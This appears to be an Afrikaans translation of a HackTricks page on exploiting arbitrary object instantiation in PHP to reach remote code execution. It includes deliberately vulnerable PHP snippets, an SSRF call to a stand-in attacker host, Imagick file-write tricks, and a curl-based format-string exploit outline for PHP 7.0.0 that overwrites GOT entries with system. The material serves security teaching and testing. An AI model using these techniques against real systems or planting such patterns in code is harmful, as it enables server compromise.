 # PHP - RCE misbruik van objekskepping: new $_GET["a"]($_GET["b"])

{{#include ../../../banners/hacktricks-training.md}}

Dit is basies 'n samevatting van [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Inleiding

Die skepping van nuwe arbitrêre objekte, soos `new $_GET["a"]($_GET["a"])`, kan lei tot Remote Code Execution (RCE), soos uiteengesit in 'n [**verslag**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Hierdie dokument beklemtoon verskeie strategieë om RCE te bereik.

## RCE via Aangepaste Klasse of Autoloading

Die sintaksis `new $a($b)` word gebruik om 'n objek te instansieer waar **`$a`** die klasnaam voorstel en **`$b`** die eerste argument is wat aan die konstruktor deurgegee word. Hierdie veranderlikes kan uit gebruikersinsette soos GET/POST afkomstig wees, waar hulle strings of arrays kan wees, of uit JSON, waar hulle as ander tipes kan voorkom.

Oorweeg die kode-fragment hieronder:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
In hierdie geval, deur `$a` op `App` of `App2` te stel en `$b` op 'n stelselopdrag (bv. `uname -a`), lei dit tot die uitvoering van daardie opdrag.

**Outomatiese laaifunksies** kan uitgebuit word as geen sulke klasse direk toeganklik is nie. Hierdie funksies laai klases outomaties vanuit lêers wanneer nodig en word gedefinieer met `spl_autoload_register` of `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Die gedrag van autoloading wissel tussen PHP-weergawes en bied verskeie RCE-mooglikhede.

## RCE via ingeboude PHP-klasse

As daar geen pasgemaakte klasse of autoloaders is nie, kan **ingeboude PHP-klasse** genoeg wees vir RCE. Die aantal van hierdie klasse wissel tussen ongeveer 100 en 200, afhangend van die PHP-weergawes en geïnstalleerde uitbreidings. Hulle kan opgelys word met `get_declared_classes()`.

Konstruktore van belang kan met die reflection API geïdentifiseer word, soos gewys in die volgende voorbeeld en die skakel [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE via spesifieke metodes sluit in:**

### **SSRF + Phar Deserialization**

Die `SplFileObject` klas maak SSRF moontlik via sy konstruktor, wat verbindinge na enige URL toelaat:
```php
new SplFileObject('http://attacker.com/');
```
SSRF kan tot deserialization-aanvalle lei in weergawes van PHP voor 8.0 deur die Phar-protokol te gebruik.

### **Uitbuiting van PDOs**

Die PDO class constructor laat verbindings na databasisse toe via DSN strings, wat moontlik lêercreatie of ander interaksies moontlik maak:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Weergawe van PHP tot en met 5.3.22 en 5.4.12 was kwesbaar vir XXE-aanvalle via die `SoapClient` en `SimpleXMLElement` konstruktors, afhangend van die weergawe van libxml2.

## RCE via Imagick-uitbreiding

In die ontleding van 'n **projek se afhanklikhede** is ontdek dat **Imagick** benut kan word vir **command execution** deur nuwe objekte te instansieer. Dit bied 'n geleentheid om kwesbaarhede uit te buit.

### VID parser

Die VID parser se vermoë om inhoud na enige gespesifiseerde pad in die lêerstelsel te skryf is geïdentifiseer. Dit kan lei tot die plaas van 'n PHP shell in 'n web-toeganklike gids, wat Remote Code Execution (RCE) bewerkstellig.

#### VID Parser + File Upload

Daar word aangetoon dat PHP opgelaaide lêers tydelik in `/tmp/phpXXXXXX` stoor. Die VID parser in Imagick, wat die **msl** protokol gebruik, kan jokertekens in lêerpaaie hanteer, wat die oordrag van die tydelike lêer na 'n gekose ligging vergemakel. Hierdie metode bied 'n addisionele manier om arbitrêre lêerskryf in die lêerstelsel te bereik.

### PHP Crash + Brute Force

Metode beskryf in die [**original writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) behels die oplaai van lêers wat 'n bedienercrash veroorsaak voordat hulle verwyder word. Deur die naam van die tydelike lêer te brute-forseer, word dit moontlik vir Imagick om arbitrêre PHP-kode uit te voer. Hierdie tegniek is egter slegs effektief in 'n verouderde weergawe van ImageMagick gevind.

## Format-string in class-name resolution (PHP 7.0.0 Bug #71105)

Wanneer gebruikersinvoer die klasnaam beheer (bv. `new $_GET['model']()`), het PHP 7.0.0 'n tydelike fout ingevoer tydens die `Throwable` refaktorering waar die engine per ongeluk die klasnaam as 'n printf-formaatstring tydens resolusie beskou het. Dit maak klassieke printf-styl primitiewe binne PHP moontlik: leaks met `%p`, skryf-tellingbeheer met breedtespesifiseerders, en arbitrêre skrywes met `%n` teen in-proses wysigers (bv. GOT-inskrywings op ELF-bouings).

Minimale reproduseerbare kwesbare patroon:
```php
<?php
$model = $_GET['model'];
$object = new $model();
```
Exploitation outline (from the reference):
- Leak adresse via `%p` in die klasnaam om 'n skryfbare teiken te vind:
```bash
curl "http://host/index.php?model=%p-%p-%p"
# Fatal error includes resolved string with leaked pointers
```
- Gebruik positional parameters en width specifiers om 'n presiese byte-aantal te stel, en gebruik dan `%n` om daardie waarde na 'n adres op die stack te skryf, mik na 'n GOT slot (bv. `free`) om dit gedeeltelik met `system` oor te skryf.
- Trigger die gekaapte funksie deur 'n klasnaam te stuur wat 'n shell pipe bevat om by `system("id")` uit te kom.

Notes:
- Werk slegs op PHP 7.0.0 (Bug [#71105](https://bugs.php.net/bug.php?id=71105)); reggestel in daarnae vrystellings. Ernstigheid: kritiek as arbitêre klasinstansiasie bestaan.
- Tipiese payloads ketting baie `%p` om die stack te deurloop, en dan `%.<width>d%<pos>$n` om die gedeeltelike oor-skrywing te laat land.

## References

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)
- [The Art of PHP: CTF‑born exploits and techniques](https://blog.orange.tw/posts/2025-08-the-art-of-php-ch/)

{{#include ../../../banners/hacktricks-training.md}}
